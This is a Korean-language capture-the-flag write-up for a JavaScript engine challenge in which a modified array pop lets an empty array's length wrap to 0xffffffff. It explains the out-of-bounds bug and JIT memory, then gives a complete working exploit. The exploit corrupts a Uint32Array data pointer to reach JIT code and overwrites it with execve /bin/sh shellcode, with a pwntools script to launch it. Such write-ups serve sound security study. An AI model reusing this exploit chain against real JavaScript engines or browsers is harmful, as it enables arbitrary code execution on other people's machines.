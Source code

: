 # 문제
***

### OOB 취약점
Array의 length 값을 속여서 해당 length 만큼의 메모리를 read/write 할 수 있는 취약점이다. (해당 영역에 read/write 권한이 있는 경우) <br/>
javascript 엔진 코드 안의 Array length의 최대 크기는 0xffffffff으로 정의되어 있다. 
<br/><br/>

### JIT (Just-In-Time Compilation), Dynamic Translation
C, C++ 에서 하는 것처럼 프로그램을 실행하기 전에 처음 한 번 컴파일하는 대신, 프로그램을 실행하는 시점에 필요한 부분을 즉석해서 컴파일하는 방식 <br/>
속도 향상을 위해서 자주 쓰이는 코드를 캐싱하여 메모리에 올려 놓음으로써 같은 함수가 여러 번 불릴 때 기계어 코드를 반복해서 생성하는 것을 방지한다. <br/>
이 때 주목해야 할 점은 해당 메모리 영역에 read/write/exec 권한이 모두 부여된다는 점이다.


### 변경 코드와 원래 코드를 diff한 결과는 다음과 같다.
```c++
JBBool
js::array_pop(JSContext *cx, unsigned argc, Value *vp)
{
    ...
    if(index==0)
    {
        args.rval().setUndefined();
    }
    else
    {
        ...
    }
    if(obj->isNative() && obj->getDenseInitializedLength() > index)
        obj->setDenseInitializedLength(index);
}
```

즉, 변경된 코드에서는 index (Array의 length를 저장하고 있는 변수)가 0일 때 Array의 index에 별다른 처리를 해주지 않는다. 따라서 Array의 length가 0일 때 pop을 하면 length 값을 0xffffffff으로 만들 수 있어서 OOB 취약점을 이용할 수 있다. 

## exploit 방법
1. Uint32Array의 헤더를 찾기 위해서 for문을 반복하면 해당 코드가 JIT 때문에 메모리 영역에 올라간다.
2. Uint32Array 헤더를 통해서 Uint32Array의 데이터가 저장된 곳을 (heap 영역) 뒤지다 보면 JIT 주소가 저장되어 있는 것을 볼 수 있다.
3. OOB 취약점을 이용해서 힙 영역에서 JIT 주소를 읽어온다.
4. OOB 취약점을 이용해서 Uint32Array의 헤더를 변경해서 Uint32Array의 헤더에서 데이터 영역의 주소를 가리키고 있는 부분을 JIT 주소로 변경한다.
5. Uint32Array를 통해서 JIT 영역의 코드를 쉘 코드로 덮어쓴다.


__주의할 점 1__ <br/>
Array를 만들 때 데이터를 크게 생성하면 데이터가 저장되는 영역이 헤더와 멀리 떨어진 곳에 할당되어서 Uint32Array의 헤더를 못 찾을 수도 있다.
<br/>

> Array의 데이터 크기를 크게 할당할 떄 메모리 구조
```
0x100 OOB Array의 헤더(배열의 크기, 데이터 포인터 포함)
0x200 Uint32Array의 헤더(배열의 크기, 데이터 포인터 포함)
0x300 Uint32Array의 데이터
       .....
0x1000 OOB Array의 데이터
```

> Array의 데이터 크기를 작게 할당할 때 메모리 구조
```
0x100 OOB Array의 헤더(배열의 크기, 데이터 포인터 포함)
0x120 OOB Array의 데이터
       .....
0x200 Uint32Array의 헤더(배열의 크기, 데이터 포인터 포함)
0x300 Uint32Array의 데이터
```

__주의할 점 2__ <br/>
Array를 이용해서 메모리에 저장되어 있는 값을 read할 때 hex값으로 출력되지 않는다. 메모리에 저장되어 있느 값을 float 형으로 읽어온다. javascript의 array들은 해당 값의 raw 버젼인 binary 데이터를 다루기 위해서 Arraybuffer를 제공한다. (object.buffer를 통해서 binary 데이터를 뽑을 수 있다.)

# 풀이
***
__exploit.js__
```
function d_to_i2(d){
        var a = new Uint32Array(new Float64Array([d]).buffer);
        return [a[1], a[0]];
}

function i2_to_d(x){
    return new Float64Array(new Uint32Array([x[1], x[0]]).buffer)[0];
}

function i2_to_hex(i2){
               var v1 = ("00000000" + i2[0].toString(16)).substr(-8);
               var v2 = ("00000000" + i2[1].toString(16)).substr(-8);
        return [v1,v2];
}

function p_i2(d){
        print(i2_to_hex(d_to_i2(d))[0]+i2_to_hex(d_to_i2(d))[1])
}

var oob_Array=new Array(1)
oob_Array[0]=0x41414141
var uint32_Array=new Uint32Array(0x3333)
for(var i=0; i<0x3333; i=i+1) {uint32_Array[i]=0x4141414141}

oob_Array.pop()
oob_Array.pop()


uint32_baseaddress_offset=0
for (i=0; i<0x10000; i++)
{
       if(oob_Array[i]==0x3333)
       {
               print('uInt32Array found');
               uint32_baseaddress_offset=i+2
               break;
       }
}


var uint32_addr=(d_to_i2(oob_Array[uint32_baseaddress_offset]));

oob_Array[uint32_baseaddress_offset] = i2_to_d([uint32_addr[0],uint32_addr[1]+(0x3333*4)+0x104])

p_i2(oob_Array[uint32_baseaddress_offset])


oob_Array[uint32_baseaddress_offset] = i2_to_d([uint32_Array[1],uint32_Array[0]])

p_i2(oob_Array[uint32_baseaddress_offset])

var shellcode="\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05\x90"
for(i=0;i<shellcode.length;i+=4)
{
        var tmp=shellcode[i+3]+shellcode[i+2]+shellcode[i+1]+shellcode[i];
        var shell=tmp[0].charCodeAt() << 24 | tmp[1].charCodeAt() << 16 | tmp[2].charCodeAt() <<8 | tmp[3].charCodeAt()
        uint32_Array[i/4]=shell;        
}

for (i=0; i<0x10000; i++)
{
       if(oob_Array[i]==0x3333)
       {
               print('uInt32Array found');
               uint32_baseaddress_offset=i+2
               break;
       }
}
```
__exploit.py__
```
#!/usr/bin/python

from pwn import *

file_path="/home/sungyun/round5/js_world/js"

p=process(file_path)

f=open("/home/sungyun/round5/js_world/exploit.js",'rb')

data=f.read()

p.sendline(data)

p.interactive()
```

